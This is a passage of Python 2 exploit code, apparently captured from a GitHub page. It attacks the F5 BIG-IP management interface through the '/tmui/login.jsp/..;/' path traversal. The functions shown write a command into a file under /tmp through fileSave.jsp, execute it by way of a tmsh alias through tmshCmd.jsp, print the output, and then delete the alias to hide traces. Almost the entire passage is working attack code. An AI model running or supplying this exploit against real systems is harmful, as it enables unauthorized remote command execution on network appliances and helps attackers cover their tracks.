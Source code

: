 
        else:
            print "[+] tmshCmd.jsp No Exit!\n"

    def upload_exit(url,file,cmd):
        fileSave_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/%s&content="%file + cmd
        proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
        r = requests.get(fileSave_url,verify=False,allow_redirects=False)
        # r = requests.get(fileSave_url,verify=False,allow_redirects=False,proxies=proxies)
        response_str = json.dumps(r.headers.__dict__['_store'])
        if r.status_code == 200 and 'tmui' in response_str:
            # print fileSave_url
            print "[+] fileSave.jsp Exit!\n"
            list_command(url,file)
        else:
            print "[+] fileSave.jsp No Exit!\n"

    def list_command(url,file):
        rce_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/%s" % file
        proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
        r = requests.get(rce_url,verify=False,allow_redirects=False)
        # r = requests.get(rce_url,verify=False,allow_redirects=False,proxies=proxies)
        response_str = json.dumps(r.headers.__dict__['_store'])
        # print len(r.content)
        if r.status_code == 200 and 'tmui' in response_str:
            if len(r.content) > 33:
                # print rce_url
                print "[+] Command Successfull !\n"
                command_result = json.loads(r.content)
                print "_"*90,'\n\n'
                print command_result['output']
                print "_"*90,"\n\n"
                delete_list(url)
        else:
            print "[+] Command Failed !\n"

    def delete_list(url):
        delete_url = url + '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list'
        proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
        r = requests.get(delete_url,verify=False,allow_redirects=False)
        # r = requests.get(delete_url,verify=False,allow_redirects=False,proxies=proxies)
        response_str = json.dumps(r.headers.__dict__['_store'])
        if r.status_code == 200 and 'tmui' in response_str:
            # print delete_url
            print "[+] delete cli alias private list Successfull! \n"
        else:
            print "[+] delete cli alias private list Failed! \n"
